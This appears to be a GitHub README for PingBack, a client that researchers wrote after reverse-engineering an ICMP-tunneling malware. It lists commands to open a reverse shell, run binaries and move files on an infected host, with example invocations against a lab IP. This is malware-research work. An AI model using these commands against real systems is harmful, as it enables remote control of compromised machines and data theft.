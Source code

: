 # PingBack

This is a client for a malware that we found and reversed engineered that uses ICMP tunneling techniques to evade detection.
The VirusTotal report for this malware can be found here: https://www.virustotal.com/gui/file/e50943d9f361830502dcfdb00971cbee76877aa73665245427d817047523667f/detection

## Installation

### Linux

Currently only tested on Linux, as scapy sniffer didn't work correctly on Windows for us.

`pip3 install -r requirements.txt`

## Usage

```
Usage: pingback.py [OPTIONS] COMMAND [ARGS]...

Options:
  --help  Show this message and exit.

Commands:
  download   Downloads file from remote using mode 1.
  download3  Downloads file from remote using mode 3.
  exep       Execute binary on remote host
  shell      Run shell on remote host, this will tell the remote to connect...
  upload2    Uploads a file to the remote host using mode 2.
```

## Simple Usage Examples

This requires obviously a target running the malware. e.g. if malware was running on 192.168.176.131 to run a shell on the target:

`$ python3 pingback.py --host 192.168.176.131`

This will listen on a random port on the local machine, send an icmp message to the target host with instructions to connect back to the local machine and random port, and establish a shell.

`$ python3 pingback.py download --host 192.168.176.131 --remote_file c:\\windows\\system32\\win32calc.exe --local_file calc.exe`

## Demo

A demo has been made by my colleague @drole
[here](https://www.youtube.com/watch?v=OlzgEVk3dig)


## Authors and acknowledgement

Lloyd Macrohon <jl.macrohon@gmail.com>
Rodel Mendrez <rmendrez@trustwave.com>
